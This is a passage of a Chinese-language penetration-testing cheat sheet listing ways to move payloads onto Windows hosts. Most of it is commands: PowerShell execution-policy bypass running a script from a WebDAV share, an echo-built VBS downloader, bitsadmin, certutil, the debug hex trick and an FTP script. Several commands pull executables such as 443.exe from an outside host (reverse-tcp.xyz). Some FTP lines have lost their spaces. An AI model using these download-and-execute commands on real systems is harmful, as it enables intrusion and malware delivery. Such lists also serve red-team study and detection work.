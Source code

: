 ```powershell
powershell -exec bypass -f \\webdavserver\folder\payload.ps1
```

#### CScript/WScript

首先就是执行UNC路径下的文件

```powershell
cscript //E:jscript \\webdavserver\folder\payload.txt
```

其次就是通过echo写入vbs脚本，再通过cscript来执行

```powershell
  ● echo set a=createobject(^"adod^"+^"b.stream^"):set w=createobject(^"micro^"+^"soft.xmlhttp^"):w.open ^"get^",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2 >> c:\windows\temp\d.vbs
  ● C:\Users\Administrator>cscript c:\d.vbs http://reverse-tcp.xyz/443.exe c:\443.exe
```

#### Bitsadmin

[bitsadmin](https://msdn.microsoft.com/en-us/library/aa362813(v=vs.85).aspx)是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。不支持https、ftp协议

```powershell
bitsadmin /TRANSFER /DOWNLOAD http://download.sysinternals.com/files/PSTools.zip  E:\PSTools.zip
bitsadmin /TRANSFER /DOWNLOAD \\webdavserver\folder\payload.ps1  E:\payload.ps1
bitsadmin /TRANSFER /UPLOAD E:\payload.ps1 \\webdavserver\folder\payload.ps1
```

#### Certutil

Certutil是一个命令行程序，它是作为证书服务的一部分安装的。可以使用Certutil转储并显示证书颁发机构(CA)配置信息、配置证书服务、备份和恢复CA组件，并验证证书、密钥对和证书链。

```powershell
certutil -urlcache -split -f http://reverse-tcp.xyz/payload payload
```

#### debug

Windows debug 是一个系统自带的程序调试工具，他有一个功能可以将十六进制转化为可执行文件，所以我们的思路就是将需要上传的可执行文件转化成hex文件，通过echo命令写入目标系统中，最后通过debug将hex还原成可执行文件，这一部分具体步骤可参考我之前的一篇[文章](http://reverse-tcp.xyz/2017/05/27/Some-Ways-To-Create-An-Interactive-Shell-On-Windows/)

#### FTP

ftp也是一种比较经典的方法，核心就是通过ftp -s:filename.txt去执行filename里边的ftp命令

```powershell
echoopen192.168.1.123 21> ftp.txt
echoftp>> ftp.txt
echobin >> ftp.txt
echoftp>> ftp.txt
echoGET ssss2.exe >> ftp.txt
ftp-s:ftp.txt
```
